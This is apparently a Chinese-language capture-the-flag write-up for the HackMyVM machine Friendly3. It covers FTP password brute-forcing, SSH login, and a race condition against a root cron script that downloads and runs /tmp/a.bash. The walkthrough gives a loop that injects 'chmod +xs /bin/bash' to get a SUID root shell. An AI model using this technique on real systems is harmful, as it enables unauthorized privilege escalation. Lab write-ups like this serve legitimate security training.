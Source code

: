# Friendly3

2025.03.14 https://hackmyvm.eu/machines/machine.php?vm=Friendly3

[video]()

## Ip

192.168.5.39

## Scan

```
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

ftp 不可匿名登陆，访问 80 web 首页，发现 juan 向 ftp 上传了文件，web 目录扫描什么都没有。

根据 juan 爆破一下 ftp，得到登陆密码 alexis ，枚举后，文件夹 fold5 fold8 和 文件 fole32 file80 有内容，全部下载，但是毛都没有。

尝试使用得到的凭据，登陆 ssh 成功，先拿到 user flag：

```
juan@friendly3:~$ cat user.txt
cb40b159c8086733d57280de3f97de30
```

枚举发现 /opt/check_for_install.sh 看其内容可能是定时执行的，上传 pspy 进行探测，发现这个脚本每分钟执行一次：

```
/usr/bin/curl "http://127.0.0.1/9842734723948024.bash" > /tmp/a.bash
chmod +x /tmp/a.bash
chmod +r /tmp/a.bash
chmod +w /tmp/a.bash
/bin/bash /tmp/a.bash
rm -rf /tmp/a.bash
```

会从本地 127.0.0.1 下载脚本 9842734723948024.bash 这里没有修改这个脚本的权限，但是可以利用条件竞争事先建立好一个 /tmp/a.bash 脚本循环写入提权命令，在 59 秒时执行：

```
for i in {1..10000}; do echo 'chmod +xs /bin/bash' >> /tmp/a.bash ; done
```

最终 bash 变成 suid 程序，拿到最终 root flag:

```
bash-5.2# cat root.txt
eb9748b67f25e6bd202e5fa25f534d51
```
